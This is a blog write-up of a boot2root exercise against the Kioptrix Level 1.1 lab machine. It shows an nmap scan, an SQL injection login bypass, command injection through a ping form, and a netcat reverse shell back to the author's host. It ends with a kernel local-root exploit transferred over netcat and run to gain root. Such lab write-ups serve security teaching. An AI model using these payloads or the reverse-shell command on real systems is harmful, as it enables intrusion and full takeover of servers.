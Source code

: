 ```yaml
---
layout: post
title: "Kioptrix hacking challenge: Part 2"
date: 2012-07-06 18:10:26 -0400
comments: true
categories: boot2root
alias: /2012/07/kioptrix-hacking-challenge-part-2.html
---
```


The second Kioptrix challenge isn't quite as scan and exploit as the first, but still a relatively easy beginner challenge. The Kioptrix challenges can be downloaded from [http://www.kioptrix.com/blog/?page_id=135](http://www.kioptrix.com/blog/?page_id=135). It's actually labeled as Level 1.1. The author mentions that there are multiple ways to compromise the system. I've only explored one method, which is what I'll be describing here.

<!--more-->

Once Kioptrix 1.1 had loaded, I ran a netdiscover scan and found it's IP address on my LAN: 192.168.1.146. I followed up with a port scan:

```
# nmap -sV -A -T4 192.168.1.146
 
Starting Nmap 5.61TEST4 ( http://nmap.org ) at 2012-04-24 10:40 EDT
Nmap scan report for 192.168.1.146
Host is up (0.00047s latency).
Not shown: 994 closed ports
PORT     STATE SERVICE              VERSION
22/tcp   open  ssh                  OpenSSH 3.9p1 (protocol 1.99)
|_sshv1: Server supports SSHv1
| ssh-hostkey: 1024 8f:3e:8b:1e:58:63:fe:cf:27:a3:18:09:3b:52:cf:72 (RSA1)
| 1024 34:6b:45:3d:ba:ce:ca:b2:53:55:ef:1e:43:70:38:36 (DSA)
|_1024 68:4d:8c:bb:b6:5a:bd:79:71:b8:71:47:ea:00:42:61 (RSA)
80/tcp   open  http                 Apache httpd 2.0.52 ((CentOS))
|_http-methods: No Allow or Public header in OPTIONS response (status code 200)
|_http-title: Site doesn't have a title (text/html; charset=UTF-8).
111/tcp  open  rpcbind (rpcbind V2) 2 (rpc #100000)
| rpcinfo: 
|   program version   port/proto  service
|   100000  2            111/tcp  rpcbind
|   100000  2            111/udp  rpcbind
|   100024  1            651/udp  status
|_  100024  1            654/tcp  status
443/tcp  open  ssl/http             Apache httpd 2.0.52 ((CentOS))
| ssl-cert: Subject: commonName=localhost.localdomain/organizationName=SomeOrganization/stateOrProvinceName=SomeState/countryName=--
| Not valid before: 2009-10-08 00:10:47
|_Not valid after:  2010-10-08 00:10:47
|_sslv2: server still supports SSLv2
|_http-title: Site doesn't have a title (text/html; charset=UTF-8).
|_http-methods: No Allow or Public header in OPTIONS response (status code 200)
631/tcp  open  ipp                  CUPS 1.1
| http-methods: Potentially risky methods: PUT
|_See http://nmap.org/nsedoc/scripts/http-methods.html
3306/tcp open  mysql                MySQL (unauthorized)
MAC Address: 00:0C:29:BF:D3:86 (VMware)
Device type: general purpose
Running: Linux 2.6.X
OS CPE: cpe:/o:linux:kernel:2.6
OS details: Linux 2.6.9 - 2.6.30
Network Distance: 1 hop
```

A website is available, and it looks like a MySQL database runs in the backend. nmap also found an open CUPS port. I decided to start with the webserver. Browsing over to http://192.168.1.146, I was greeted with a login form.

->![](/images/2012-07-06/01.png)<-

I decided to see if I could bypass the authentication mechanism using a simple SQL injection attack. For the username I entered test, and for the password I entered x' or 'x'='x. I was going by the assumption that the backend SQL code looked something like

```sql
SELECT * FROM ACCOUNTS WHERE USERNAME='test' AND PASSWORD='password'
```

By using x' or 'x'='x the query would be changed so that the results would always be true:

```sql
SELECT * FROM ACCOUNTS WHERE USERNAME='test' AND PASSWORD='x' OR 'x'='x'
```

I hit the Login button and was presented with a new form. The SQL injection worked and I was able to login as some authenticated user.

->![](/images/2012-07-06/02.png)<-

It looked to be some sort of diagnostic tool that allowed an authenticated user to ping a machine. I punched in 127.0.0.1 and hit Submit to see what would happen. A new browser tab opened up that showed the ping results:

->![](/images/2012-07-06/03.png)<-

I wondered if this form was susceptible to code injection. I assumed that the backend code for this form probably just made a system call to ping and passed it the IP address that I had entered in the form. If that was the case, I could chain my own commands at the end of the IP address and have them execute on the server. I started off with 127.0.0.1;id as a simple test:

->![](/images/2012-07-06/04.png)<-

Sure enough, right at the end of the ping results, it showed me that the process had run as the apache user. If I could inject code that would run on the webserver, then I could make it give me a reverse shell so that I could have shell access to the server. Probing the system further, I used the whereis command and found netcat. It was time to try a reverse shell. On my terminal I started a netcat listener

```text
# nc -lvp 8080
```

On the webpage I entered the following into the form and hit Submit

```
127.0.0.1;/usr/local/bin/nc 192.168.1.172 8080 -e '/bin/bash'
```

Netcat on the server started up and connected to my netcat listener and gave me a reverse shell.

->![](/images/2012-07-06/05.png)<-

Now that I had shell access to the system, exploring it would be much easier. Running uname gave me the kernel version, 2.6.9. Checking against exploit-db, I found several exploits against the 2.6.x kernel:

```
# /pentest/exploits/exploitdb/searchsploit kernel 2.6 linux local|sort -n
--------------------------------------------------------------------------- -------------------------
 Description                                                                 Path
Linux 2.6.30+/SELinux/RHEL5 Test Kernel Local Root Exploit 0day             /linux/local/9191.txt
Linux Kernel 2.4.1-2.4.37 and 2.6.1-2.6.32-rc5  Pipe.c Privelege Escalation /linux/local/9844.py
Linux Kernel 2.4/2.6 bluez Local Root Privilege Escalation Exploit (update) /linux/local/926.c
Linux Kernel 2.4/2.6 sock_sendpage() Local Root Exploit [2]                 /linux/local/9598.txt
Linux Kernel 2.4/2.6 sock_sendpage() Local Root Exploit [3]                 /linux/local/9641.txt
Linux Kernel 2.4/2.6 sock_sendpage() Local Root Exploit (ppc)               /linux/local/9545.c
Linux Kernel 2.4/2.6 sock_sendpage() ring0 Root Exploit (simple ver)        /linux/local/9479.c
Linux Kernel 2.4/2.6 x86-64 System Call Emulation Exploit                   /linux/local/4460.c
```

The ring0 root exploit seemed promising, so I decided to try that one first. Using netcat, I transferred the file from my machine to the target: On my machine:

```
nc -lvp 9998 < /pentest/exploits/exploitdb/linux/local/9479.c
```

On the target machine:

```
cd /tmp/
nc 192.168.1.172 9998 > 9479.c
```

With the ring0 exploit transferred, it was time to compile and run it:

```
gcc 9479.c
./a.out
sh: no job control in this shell
sh-3.00# id
uid=0(root) gid=0(root) groups=48(apache)
sh-3.00#
```

Instant root shell and game over.
This challenge was a just a little bit more involved than the first Kioptrix level. Getting a foothold into the system required a bit of knowledge about SQL injection, and how Linux commands can be chained. If you can find a way to run commands on the server remotely, you're one step closer to rooting it.
